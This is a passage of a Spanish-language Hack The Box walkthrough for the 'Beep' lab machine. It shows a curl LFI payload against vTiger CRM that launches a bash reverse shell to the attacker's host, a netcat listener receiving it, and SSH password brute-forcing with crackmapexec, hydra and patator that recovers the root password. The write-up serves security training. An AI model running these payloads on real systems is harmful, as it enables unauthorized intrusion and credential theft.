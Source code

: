 En lugar de `id`, vamos añadir una shell inversa, también voy a codificar los datos, en este caso el código de la shell inversa con `--data-urlencode`:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/10.10.16.3/443 0>&1"
```

Ahora recibimos una shell:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59168
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ whoami
asterisk
```

# SSH - TCP 22 [Path #2]

Podemos intentar la fuerza bruta de SSH:

```shell
❯ crackmapexec ssh 10.10.10.7 -u htb/box/Beep/users.txt  -p passwords.txt
SSH         10.10.10.7      22     10.10.10.7       [*] SSH-2.0-OpenSSH_4.3
SSH         10.10.10.7      22     10.10.10.7       [-] root:amp109 Authentication failed.
SSH         10.10.10.7      22     10.10.10.7       [+] root:jEhdIekWmdjE (Pwn3d!)
```

También podemos utilizar la hidra:

```shell
❯ hydra -L htb/box/Beep/users.txt -P passwords.txt -s 22 ssh://10.10.10.7 -v -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 18:37:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 24 login tries (l:6/p:4), ~6 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@10.10.10.7:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.7:22
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

Alternativamente, el patator también es útil:

```shell
❯ patator ssh_login host=10.10.10.7 port=22 user=FILE0 password=FILE1 0=htb/box/Beep/users.txt 1=passwords.txt
18:39:49 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2021-12-22 18:39 EST
18:39:49 patator    INFO -
18:39:49 patator    INFO - code  size    time | candidate                          |   num | mesg
18:39:49 patator    INFO - -----------------------------------------------------------------------------
18:40:01 patator    INFO - 0     19    10.516 | root:jEhdIekWmdjE                  |     2 | SSH-2.0-OpenSSH_4.3
```
